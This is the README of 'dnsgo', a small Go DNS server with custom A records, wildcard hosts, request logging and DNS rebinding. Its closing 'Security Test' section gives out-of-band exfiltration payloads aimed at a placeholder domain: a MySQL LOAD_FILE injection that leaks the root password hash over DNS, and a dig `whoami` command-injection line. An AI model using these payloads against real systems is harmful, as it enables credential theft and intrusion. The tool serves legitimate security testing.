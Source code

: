 # dnsgo

## What's it?

It's a dns server.And you can use it when you need to use a own dns server.

## Where to use it?

- Use it as a website's nameserver (Only support "A" record now).
- Use it in intra network. Such as fast dns cache server. What's more, you can use it to defense dns DNS cache pollution.
- Use it when you need to get dns record. Not only monitor dns request, but also in web security test such as dns rebinding.

## How to use it?

### Install

```
go get github.com/grt1st/dnsgo
cd $GOPATH/src/github.com/grt1st/dnsgo
go build github.com/grt1st/dnsgo
./dnsgo -h
```

### Command 

```
$ [dnsgo]: ./dnsgo -h
Usage:
  ./dnsgo [Options]

Options
  -h	Show usage
  -host string
    	Address to bind (default "localhost")
  -log string
    	Filename of log file
  -query
    	Whether to send dns request
  -version
    	Show program's version number and exit
```

You can simply run it by: `sudo ./dnsgo`. You can define the address to bind, like `sudo ./dnsgo -host 0.0.0.0`. It will bind at `localhost` defaultly.

If you need it to lookup dns when meet undefined domain, set `query` please, such as `sudo ./dngo -query` .

Also you can define a log file, such as: `./dnsgo.go -log "./dnsgo.log"`

### Config File:

```
├── conf
|   |── default.conf
│   ├── hosts.conf        
│   ├── nameserver.conf
│   └── resolver.conf
```
- default.conf:

    Default config file. It defines where to find config file, don't need to change it.

- hosts.conf: 

     The file is like `/etc/hosts`, you can define a domain-ip relation in it. such as `github.com. 127.0.0.01`.
     What's more, you can define more ip by `&`: `github.com. 127.0.0.0.1&1.2.3.4`.
     And, you can use wildcard in it, such as `*.github.com. 192.168.1.1`
     
     Pattern:
     
     | Pattern | Meaning |
     | ------------- | ------------- |
     | `github.com. 127.0.0.0.1`| A record to `github.com`, value: `127.0.0.1`|
     |`github.com. 127.0.0.0.1&1.2.3.4` | A record to `github.com`, value: `127.0.0.1` & `1.2.3.4` |
     | `a.github.com. 127.0.0.0.1` | Define a subdomain `a.github.com` with A record |
     | `*.github.com. 127.0.0.0.1` | Define a subdomain of wildcard. Priority is lower than the specified subdomain. |
     | `github.com. 127.0.0.0.1\|1.2.3.4` | dns-rebinding. A record to `github.com`, Odd requests return first one(`127.0.0.1`), while even requests return the second(`1.2.3.4`). |
     
     
- nameserver.conf

    It's the file of nameserver. Config it by `nameserver 8.8.8.8`.
    
- resolver.conf

    A file like `/etc/resolv.conf`, don't know it much. But it's about dns forward. The format like `server=/*.abc.local/192.168.10.1`
    
### Example

#### Basic use

 `./dnsgo -host 0.0.0.0`, you can test it by `dig @127.0.0.1 xxxx.xx`

#### Use it on the public network 

To use it on the internet, first, you have to add a nameserver record for it. Config it at the domain name resolution page.

Config subdomain like this:
```
dnsgo NS ns.dnsgo.your-domain
ns.dnsgo A your-ip
```

Then you can config host at `conf/hosts.conf`, like:
```
test.dnsgo.your-domain. 8.8.8.8
```

To do dns rebinding, do this:
```
rebind.dnsgo.your-domain. 8.8.8.8|127.0.0.1
```

However, it depends on the dns server, for example some servers min-ttl is 60.

#### Get DNS Records

After you setup, you can get the dns records.

Normally, it will output at the command line:
```
- dnsgo [master] ⚡  sudo ./dnsgo
Password:
2018/07/10 23:56:22 [+] dns server start listening at localhost:53
2018/07/10 23:56:31 [INFO] hosts%!(EXTRA net.IP=127.0.0.1, string=github.com., []string=[127.0.0.1], int=1)
2018/07/11 00:01:10 [INFO] hosts%!(EXTRA net.IP=127.0.0.1, string=grt1st.cn., []string=[123.206.60.140 1.2.3.4], int=2)
```

Also, you can set log file by `./dnsgo -log dns.log` to log records in a file, then `cat` the file.

#### Security Test

- Dns Rebinding: eg: Set `rebind.your-domain 1.2.3.4|127.0.0.1` at `hosts.conf`, then `dig rebind.your-domain` to test.
- Dnslog in Sql Injection. eg: `SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root' LIMIT 1),'.mysql.your-domain\\abc'));` in mysql (only support in windows for unc). More eg at [Dnslog在SQL注入中的实战](https://www.anquanke.com/post/id/98096)
- Command Injection. eg: 
```
dig `whoami`.your-domain
```

## To-do 

1. More stability test
2. Code rebuild

## Thanks

[miekg/dns](https://github.com/miekg/dns)

[kenshinx/godns](https://github.com/kenshinx/godns)
